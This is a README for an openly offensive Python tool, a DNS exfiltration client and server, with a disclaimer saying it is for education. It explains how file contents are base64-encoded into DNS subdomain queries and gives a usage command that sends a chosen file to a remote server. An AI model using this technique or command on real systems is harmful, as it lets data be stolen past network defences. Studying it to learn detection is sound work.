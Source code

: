 # DNS Exfiltration Tool

## Overview
This project includes two main components: a DNS exfiltration client and a corresponding server. The client reads the contents of a file, encodes it using base64, and then exfiltrates the data over DNS queries to the server. The server listens for these queries, decodes the incoming data, and reconstructs the original file. This project is designed for educational purposes to demonstrate DNS exfiltration techniques.

## Components

### 1. Client (`client.py`)
The client script encodes and sends file data in chunks via DNS queries. Each query embeds data within the subdomain to be sent to the DNS server. 

#### Features:
- File encoding using base64
- Data transmission via DNS queries
- Use of unique identifiers for each session

### 2. Server (`server.py`)
The server script receives DNS queries, extracts and decodes the data, and reconstructs the original file.

#### Features:
- Listening for DNS queries on a specified port
- Decoding base64 encoded data from the queries
- File reconstruction and storage

## Installation

### Prerequisites
- Python 3.x
- `dnslib` library

### Setup
1. Clone the repository:
   ```bash
   git clone https://github.com/bufo333/python-dns-exfiltration-client-server.git
   ```
2. Install required Python packages:
   ```bash
   pip install dnslib
   ```

## Usage

### Running the Client
```bash
python client.py --file <path_to_file> --domain <domain_name> --server_ip <server_ip> --server_port <server_port>
```

### Running the Server
```bash
python server.py --port <listening_port> --output-dir <output_directory>
```

## License
This project is licensed under the GPL License - see the [LICENSE](LICENSE) file for details.

## Contributing
Contributions are welcome. Please fork the repository and submit a pull request.

## Authors
- John Burns

## Acknowledgments
This project was created for educational purposes to better understand DNS exfiltration techniques. 

## Disclaimer
The DNS Exfiltration Tool is developed for educational and research purposes only. It is intended to help users learn about and study DNS exfiltration techniques in a controlled, responsible, and legal environment.

This tool should not be used on any network, system, or domain without explicit permission from the rightful owners or administrators. Unauthorized use of this tool to perform DNS exfiltration or any other form of unauthorized data extraction could violate local, state, national, and international laws.

By downloading, copying, installing, or using the software, you agree to use it in a manner consistent with your local laws. The authors of this software disclaim all liability for any illegal use of this tool and any damages that may occur from its use. It is your responsibility to comply with all applicable laws and to use the software ethically and responsibly.

